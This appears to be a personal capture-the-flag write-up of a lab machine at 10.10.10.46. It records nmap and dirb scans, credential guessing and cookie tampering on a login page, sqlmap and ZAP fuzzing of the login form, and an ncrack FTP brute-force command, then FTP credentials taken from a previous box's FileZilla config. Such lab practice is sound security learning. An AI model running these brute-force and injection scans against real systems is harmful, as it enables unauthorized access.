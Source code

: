 ## `nmap 10.10.10.46 -sV -sC`

```
vagrant@vagrant-virtualbox ~> nmap 10.10.10.46 -sV -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 14:53 CDT
Nmap scan report for 10.10.10.46
Host is up (0.049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.57 seconds
```

## `dirb`

Not really useful.

```
┌─[vagrant@vagrant-virtualbox]─[~]
└──╼ $dirb http://10.10.10.46/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Mar 31 13:33:22 2021
URL_BASE: http://10.10.10.46/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.46/ ----
+ http://10.10.10.46/index.php (CODE:200|SIZE:2312)                            
+ http://10.10.10.46/server-status (CODE:403|SIZE:276)                         
                                                                               
-----------------
END_TIME: Wed Mar 31 13:36:19 2021
DOWNLOADED: 4612 - FOUND: 2
```

## 

## http://10.10.10.46/

Login page. Time to try some creds!

None seemed to work.

Tried

    admin:MEGACORP_4dm1n!!
    admin:M3g4C0rpUs3r!
    robert:MEGACORP_4dm1n!!
    robert:M3g4C0rpUs3r!

I also tried setting this cookie value:

    user=34322
    role=admin

But that didn't yield results.

Then, I tried SQLMap, but no dice.

    sqlmap http://10.10.10.46 --forms

    [13:40:15] [WARNING] POST parameter 'password' does not seem to be injectable
    [13:40:15] [ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent', skipping to the next form

Going to try a combination of all the logins and creds using OWASP ZAP.

### ZAP 

Going to fuzz this request:

```
POST http://10.10.10.46/index.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Referer: http://10.10.10.46/index.php
Host: 10.10.10.46
Cookie: PHPSESSID=pi34jts3c4nji40425njl3mk2r

username=$HERE$&password=$HERE$
```

With these strings:

```
MEGACORP_4dm1n!!
M3g4C0rpUs3r!
M3g4c0rp123
robert
34322
admin
administrator
admin@megacorp.com
8832
john
john@tafcz.co.uk
57633
Peter
peter@qpic.co.uk
28832
Rafol
tom@rafol.co.uk
86575
super admin
superadmin@megacorp.com
```

...and all the permutations result in similarly-long HTTP responses, likely meaning that these creds aren't valid.

## FTP brute-force, `ncrack`

I can connect to an FTP server on 10.10.10.46, so I'll try to credential stuff that.

    pushd payloads
    ncrack -U formfuzz.txt -P formfuzz.txt ftp://10.10.10.46
    popd

It appears that `ncrack` isn't working. 

## I am stuck 1

Okay, I'm stuck and want to get more acquainted with the tools, so I'm going to just consult the guide.

They say that there is FTP, SSH, and HTTP services running, which is what I found.

But then they say,

> The credentials ftpuser / mc@F1l3ZilL4 can be used to login to the FTP server.

Where did they get these creds from?! Maybe a brute force FTP attack?

I need to consult the previous guide for 'Oopsie'.

...

YES, the cred was in the previous box, 'Oopsie', inside `/root/`... I guess I should have explored that.

Going to get the cred from the previous box now.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

Got the cred, so I can connect to FTP now.

I downloaded `backup.zip` file, but it's password protected.